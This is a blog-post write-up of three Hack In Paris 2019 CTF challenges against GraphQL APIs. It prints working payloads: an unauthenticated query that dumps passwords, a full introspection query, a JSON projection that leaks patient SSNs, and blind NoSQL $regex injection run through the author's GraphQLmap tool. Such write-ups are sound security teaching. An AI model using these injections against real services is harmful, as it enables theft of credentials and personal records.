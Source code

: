 ```yaml
---
layout: post
title: HIP19 Writeup - Meet Your Doctor 1,2,3
image: /images/HIP19/hip19_wargame.png
---
```


Last wednesday I was in the Hack In Paris event for the 3rd time. As always there were some great conferences and challenges, and a new competition called "Hacker Jeopardy" which was very fun! During the Wargame I focused my time on Web challenges based on the `graphql` technology which was new to me, you will find below my writeups for the `Meet Your Doctor` challenges. 

![HIP Wargame 2019]({{ site.baseurl }}/images/HIP19/hip19_wargame.png "HIP Wargame 2019"){: .center-image }

<!--more-->

## Meet your doctor 1 - 100 pts

URL: `http://meetyourdoctor1.challs.malice.fr`   
Goal : `Please help me find the Meet your doctor Admin password`   

Gobuster revealed a `/graphql` endpoint at the root of the website, browsing [http://meetyourdoctor1.challs.malice.fr/graphql](http://meetyourdoctor1.challs.malice.fr/graphql) gave us an access to an interactive GraphQL interpreter. On this page we can browse the documentation and `schema`. 

There, we can get the structure of the `Doctor` type.

{% highlight sql %}
type Doctor {
  id: ID!
  firstName: String!
  lastName: String!
  specialty: String!
  patients: [Patient!]
  rendezvous: [Rendezvous!]
  email: String!
  password: String!
}
{% endhighlight %}

It seems we don't need to authenticate with the mutation `signIn` to query `Doctor` data.

{% highlight sql %}
type Mutation {
  signIn(login: String!, password: String!): Token!
}
{% endhighlight %}

A simple query `{Doctors{id email password}}` was enough to extract all doctors' email and password. The flag was the password of the Admin doctor : `Now-_Let$|GetSeri0us`

![GraphQL UI]({{ site.baseurl }}/images/HIP19/doctors1graphql.png "GraphQL UI")


## Meet your doctor 2 - 200 pts

URL: `http://meetyourdoctor2.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

In this challenge we didn't have access to an online "lab" to test and query the GraphQL. I made a tool to interact with the `/graphql` endpoint, it is open-source and available for free on [Github: https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

Using `Introspection` we can still get the GraphQL schema, here is the URL-encoded version (Full version available at "[GraphQL Injection: enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)").

{% highlight sql %}
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
{% endhighlight %}

It is strongly recommended to use `Firefox` to view the server response as it parses JSON an displays it nicely.

![Doctors schema]({{ site.baseurl }}/images/HIP19/doctors2_schema.png "Doctors schema")

Using GraphQLmap, we got the following structure.

{% highlight sql %}
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!), 
        doctors[Doctor]: options (JSON!), 
        patients[Patient]: 
        patient[]: id (ID!), 
        allrendezvous[Rendezvous]: 
        rendezvous[]: id (ID!), 
Doctor
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        specialty[String]: 
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
Patient
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        doctor[Doctor]: 
        ssn[String]: 
Rendezvous
        id[ID]: 
        date[String]: 
        confirmed[Boolean]: 
Mutation
        signIn[Token]: login (String!), password (String!), 
Token
        token[String]: 
{% endhighlight %}

In this case `Doctors` have an `options` parameter which accepts JSON. It allows us to specify items linked to the doctors' structure and project their data into the GraphQL response. I saw the following picture in a blog post, it helped me a lot to understand the structure of the query.

![GraphMap]({{ site.baseurl }}/images/HIP19/graphmap.png "GraphMap")

We can query `{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}`, don't forget to escape the `"` inside the `options`.

{% highlight json %}
GraphQLmap> {doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
{
    "firstName": "Admin",
    "id": "5d089b25f48c29003191e3b5",
    "lastName": "Admin",
    "patients": [
        {
            "ssn": "b16cff8b-4a5a-41c8-8545-d9880fd7aae5"
        }
    ]
} 
{% endhighlight %}

There we go, the second flag was `b16cff8b-4a5a-41c8-8545-d9880fd7aae5`.     
An asciinema version is available at [https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli](https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli)


## Meet your doctor 3 - 300 pts

URL: `http://meetyourdoctor3.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

Things are getting complicated, we can't dump the schema as the `Introspection` is set to false. Based on the previous challenge we can guess the structure is the same. Unfortunately we can't reuse the same query to extract the `ssn`, we get the following error.

{% highlight bash %}
Field "doctors" argument "search" of type "JSON!" is required, but it was not provided.
{% endhighlight %}

This means there is a `search` argument in the doctor structure, something like `doctors[Doctor]: options (JSON!), search(JSON!)`.    
Pete Correy explains how to exploit the search argument in his blog post [GraphQL NoSQL Injection Through JSON Types](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/).

Let's try a simple NoSQL injection with fields we know such as `lastName`.

{% highlight json %}
OK: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi\"} }"){firstName lastName id}}
KO: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admia\"} }"){firstName lastName id}}
{% endhighlight %}

Since the challenge I added a way to test the regex quickly in GraphQLmap using the `GRAPHQL_CHARSET` keyword inside a GraphQL query:

{% highlight json %}
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}     
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}    
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}    
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{% endhighlight %}

The injection worked, now we can re-use the payload from the challenge #2 and extract the `social security number` of the patient 0, which is the patient of the `Admin` doctor. The query was as follows, where we had to replace `CHARACTER_FROM_THE_FLAG` to test characters from the flag.

{% highlight json %}
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \"^CHARACTER_FROM_THE_FLAG\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
{% endhighlight %}

Obviously we scripted the data extraction in Python, the script below will get the last flag : `4f537c0a-7da6-4acc-81e1-8c33c02ef3b`.

![NOSQL]({{ site.baseurl }}/images/HIP19/doctors3_nosql.png "NOSQL")

At that time we were checking if the content of `r.json()['data']['doctors']` was not empty, in order to abstract the data extraction we now take a check input from the user in order to compare the output.


{% highlight json %}
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
{% endhighlight %}

I hope you enjoyed the challenges as I did !     
Feel free to share the blog post ! :)
